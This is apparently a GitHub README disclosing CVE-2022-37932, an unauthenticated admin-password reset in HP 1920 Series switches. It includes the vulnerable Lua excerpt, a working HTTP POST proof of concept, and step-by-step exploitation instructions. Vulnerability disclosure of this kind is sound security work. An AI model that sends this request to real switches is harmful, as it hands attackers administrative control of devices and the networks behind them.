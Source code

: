 # HP Switch Firmware Authentication Bypass Vulnerability

## CVE-2022-37932
 
**Firmware Version: PD.02.21**  
**Affected Devices: HP 1920 Series Smart Managed Switches**

## Overview

This repository documents a critical authentication bypass vulnerability in HP 1920 Series Smart Managed Switches running firmware version PD.02.21. The vulnerability allows an unauthenticated attacker to change the admin password without prior authentication, effectively allowing complete takeover of the device.

## Technical Details

The vulnerability exists in the `/login/default_password_cfg.lua` script, which handles changing the default password for the device. This script:

1. Accepts form POST requests without checking if the user is authenticated
2. Only verifies that the `oldPwd` parameter matches the default password (which is blank/empty)
3. Directly changes the user's password based on POST parameters

### Vulnerable Code

The key vulnerable section in `default_password_cfg.lua`:

```lua
if (request_method == 'POST') then
  -- No authentication or session checks!
  
  local defaultPassword = fpaux.string_const("FD_USER_MGR_DEFAULT_PASSWORD")
  -- ...

  if form_post.oldPwd ~= defaultPassword then
    errorStatus = "401 Unauthorized"
    errorText = label.old_password_mismatch
  else
    -- Proceeds to change password
    -- ...
  end
end
```

The script lacks critical security controls:
- No session validation
- No CSRF protection
- No rate limiting
- Direct access to password change functionality without authentication

## Proof of Concept

An attacker can exploit this vulnerability using a simple HTTP POST request:

```http
POST /login/default_password_cfg.lua HTTP/1.1
Host: [target-ip]
Content-Type: application/x-www-form-urlencoded
Content-Length: [length]

username=admin&oldPwd=&newPwd=[new-password]&confirmPwd=[new-password]
```

Note: The `oldPwd` parameter is left empty as the default password is blank.

## Impact

This vulnerability allows an unauthenticated attacker to:
1. Change the admin password without knowing any credentials
2. Gain complete administrative control over the device
3. Configure the switch, modify network settings, and potentially compromise the entire network

## Exploitation Path

1. Locate a vulnerable HP 1920 Series switch on the network
2. Send the crafted HTTP POST request directly to the device
3. Admin password is changed to attacker-controlled value
4. Attacker can now log in with the new password and full admin privileges

## Credits

Haven't had the time to research who originally discovered this vulnerability I'm just posting a Proof of Concept.

## Legal Disclaimer

This information is provided for educational purposes only. The author is not responsible for any misuse of this information. Always obtain proper authorization before testing for vulnerabilities.
